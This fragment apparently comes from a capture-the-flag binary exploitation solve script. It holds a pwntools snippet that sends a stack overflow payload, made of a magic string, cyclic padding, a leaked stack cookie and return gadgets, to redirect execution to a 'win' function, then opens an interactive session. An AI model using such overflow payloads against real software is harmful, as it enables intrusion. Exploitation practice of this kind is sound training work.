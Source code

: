 ```python
p.sendline(b"Expelliarmus\0" + b"A" * cyclic_find(b"cnaa") + p64(cookie) +
        p64(ret) + p64(ret) + p64(win))

p.interactive()
```

